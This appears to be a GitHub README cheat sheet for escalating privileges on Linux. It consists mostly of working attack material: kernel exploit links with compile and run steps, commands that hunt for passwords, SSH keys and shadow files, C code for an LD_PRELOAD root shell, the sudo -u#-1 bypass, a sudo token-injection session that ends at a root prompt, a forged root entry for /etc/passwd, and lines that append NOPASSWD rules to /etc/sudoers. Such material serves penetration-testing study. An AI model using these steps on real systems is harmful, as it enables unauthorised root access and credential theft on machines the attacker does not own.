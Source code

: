 # linux-privilege-Esclate
# Simple technique to esclate privilege

# Initial Enumeration
uname -a, netstat -ano, history

# Automated tools
1) Linux-Exploit-Suggester  https://github.com/mzet-/linux-exploit-suggester
2) Linux-Privilege-Script https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
3) Linux-Enumeration https://github.com/rebootuser/LinEnum


# Kernal-Exploit

1) CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
Code: https://github.com/FireFart/dirtycow/blob/master/dirty.c  

  compile:- gcc -pthread dirty.c -o dirty -lcrypt  
  Time to execute:- "./dirty" or "./dirty my-new-password"

2) CVE-2010-3904 (RDS)  
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
https://www.exploit-db.com/exploits/15285/

3) CVE-2010-4258 (Full Nelson)  
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)  
https://www.exploit-db.com/exploits/15704/  

4) CVE-2012-0056 (Mempodipper)  
Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
https://www.exploit-db.com/exploits/18411  


# Weak File Permission

ls -l | grep shadow  
ls -l | grep passwd

# File Containing Password

grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null  
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

# Old passwords in /etc/security/opasswd
/etc/security/opasswd 

# Last edited files
*Files that were edited in the last 10 minutes*  
find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

# In memory passwords
strings /dev/mem -n10 | grep -i PASS

# Find sensitive files
$ locate password | more  
/boot/grub/i386-pc/password.mod  
/etc/pam.d/common-password  
/etc/pam.d/gdm-password  
/etc/pam.d/gdm-password.original  
/lib/live/config/0031-root-password  

# SSH Key
*Sensitive files*  
find / -name authorized_keys 2> /dev/null  
find / -name id_rsa 2> /dev/null

# SUDO
* NOPASSWD Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.*  
$ sudo -l

# GTFOBinn
https://gtfobins.github.io


# LD_PRELOAD and NOPASSWD
If LD_PRELOAD is explicitly defined in the sudoers file

Defaults        env_keep += LD_PRELOAD

Compile the shared C code below on victim machine with gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
void _init() {  
	unsetenv("LD_PRELOAD");  
	setgid(0);  
	setuid(0);  
	system("/bin/sh");  
}  
Execute any binary with the LD_PRELOAD to spawn a shell : sudo LD_PRELOAD=<full_path_to_.so_file> <program>, e.g: sudo LD_PRELOAD=/tmp/shell.so whoami  

# Security bypass CVE-2019-14287
CVE-2019-14287 is a vulnerability found in the Unix Sudo program by a researcher working for Apple: Joe Vennix. This exploit present in older versions of Sudo (versions < 1.8.28).

Joe Vennix found that if you specify a UID of -1 (or its unsigned equivalent: 4294967295), Sudo would incorrectly read this as being 0 (i.e. root). This means that by specifying a UID of -1 or 4294967295, you can execute a command as root, despite being explicitly prevented from doing so. It is worth noting that this will only work if you've been granted non-root sudo permissions for the command, as in the configuration above.  

Practically, the application of this is as follows: sudo -u#<id> <command>  
E.g sudo -u#-1 whoami

$ sudo whatever

[sudo] password for user:  

# Press <ctrl>+c since you don't have the password.  
# This creates an invalid sudo tokens.  
$ sh exploit.sh  
.... wait 1 seconds  
$ sudo -i # no password required :)  
# id  
uid=0(root) gid=0(root) groups=0(root)  
	
Slides of the presentation : https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf  


# Writabe /etc/passwd
If we have permission to write a passwd file in linux then generate password from this command.  

openssl passwd -1 -salt escalate  
mkpasswd -m SHA-512 esclate

Then add the generated password.

root:GENERATED_PASSWORD_HERE:0:0:root:/root:/bin/bash  
E.g: root:$1$hacker$TzyFIv0/R/c28W.GAeLw.1:0:0:root:/root:/bin/bash

You can now use the su command with root:esclate  
E.g: su root  

# Writable /etc/sudoers
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers  

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers  
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers  
